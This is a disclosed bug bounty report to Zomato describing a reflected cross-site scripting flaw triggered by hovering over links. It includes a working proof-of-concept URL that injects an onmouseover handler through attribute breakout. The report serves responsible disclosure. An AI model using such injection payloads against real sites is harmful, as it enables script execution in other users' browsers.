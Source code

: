 # XSS onmouseover 

## Report Details
- **Report ID**: 139981
- **URL**: https://hackerone.com/reports/139981
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-20T18:04:34.749Z
- **Disclosed**: 2016-08-02T03:50:59.238Z

## Reporter
- **Username**: idomin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
Hi, my first rapport ever so be gentle! 

Found an XSS that can be executed by hoovering over links with Firefox 

https://www.zomato.com/cs/new-york-city/turtle-bay-restaurants/fast-casual/1zqjrw'/onmouseover='alert%281%29'/style='height:200;width:200'/b=

Will add an picture also that proves that it works!

Best regards!

## Attachments
- Screen_Shot_2016-05-20_at_20.02.56.png
